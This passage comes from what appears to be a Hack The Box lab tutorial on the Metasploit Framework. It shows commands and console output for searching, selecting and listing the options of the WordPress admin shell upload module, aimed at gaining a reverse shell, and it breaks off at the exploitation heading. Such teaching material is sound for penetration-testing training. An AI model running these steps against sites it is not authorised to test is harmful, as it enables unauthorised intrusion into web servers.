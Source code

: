 We can quickly start `MSF` by issuing the following command:
### Starting Metasploit Framework

```shell-session
trop3n@htb[/htb]$ msfconsole
```

To obtain a reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:
### MSF Search

```shell-session
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

The number `0` in the search results represents the ID for the suggested modules. From here on, we can specify the module by its ID number to save time.
### Module Selection

```shell-session
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```
### Module Options

Each module offers different settings options that we can use to assign precise specifications to `MSF` to ensure the attack's success. We can list these options by issuing the following command:
### List Options

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```
## Exploitation
